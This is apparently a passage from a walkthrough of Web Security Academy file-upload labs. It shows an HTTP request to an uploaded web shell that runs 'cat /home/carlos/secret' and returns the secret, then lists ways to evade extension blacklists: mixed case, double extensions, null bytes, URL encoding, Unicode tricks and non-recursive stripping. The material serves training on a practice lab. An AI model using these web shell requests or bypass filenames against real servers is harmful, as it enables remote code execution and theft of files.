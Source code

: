 **Exfilterate Secret **
```
GET /files/avatars/exploit.l33t?cmd=cat%20/home/carlos/secret HTTP/1.1
Host: 0a5900660399847f816b34d8000200d4.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session=AEVMLNrxJBRC31ZIanklP6inQoGw4Lj8

...

HTTP/1.1 200 OK
Date: Wed, 07 Jun 2023 10:04:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

e7G1jusSHva78TK1BIKFhBMscehKX131
```

### Obfuscating file extension

Even the most comprehensive blacklists can be circumvented using common obfuscation techniques. Let's consider a scenario where the validation code is case-sensitive and fails to recognize that `exploit.pHp` is actually a `.php` file. If the code responsible for mapping file extensions to MIME types is not case-sensitive, this inconsistency allows malicious PHP files to pass validation and potentially be executed by the server.

Similar results can be achieved through the following methods:

- **Providing multiple extensions**: By using a filename like `exploit.php.jpg`, the file may be interpreted as both a PHP file and a `JPG` image, depending on the filename parsing algorithm.
- **Adding trailing characters**: Certain components may ignore or strip trailing `whitespaces` or dots, allowing filenames like `exploit.php.` to bypass validation.
- **Using URL encoding**: Dots, forward slashes, and backward slashes can be URL-encoded (or double URL-encoded) to deceive validation mechanisms that don't decode the value. For example, `exploit%2Ephp` may pass as a valid filename but represent a malicious file.
- **Adding semicolons or URL-encoded null byte characters**: Appending semicolons or URL-encoded null byte characters before the file extension, such as `exploit.asp;.jpg` or `exploit.asp%00.jpg`, can exploit discrepancies between high-level language validation and lower-level file processing.
- **Employing multibyte Unicode characters**: Certain `Unicode` sequences may be converted to null bytes or dots after conversion or normalization, such as `xC0` `x2E` or `xC4` `xAE`, potentially bypassing filename validation.

Additional defenses involve stripping or replacing dangerous extensions to prevent file execution. However, if this transformation is not applied recursively, it is possible to position the prohibited string in a way that removing it still leaves a valid file extension. For example, consider the filename `exploit.p.phphp`, where stripping `.php` results in a valid file extension.

These are just a few examples of the various methods for obfuscating file extensions.

### LAB #5: Web Shell upload via obfuscated file extension
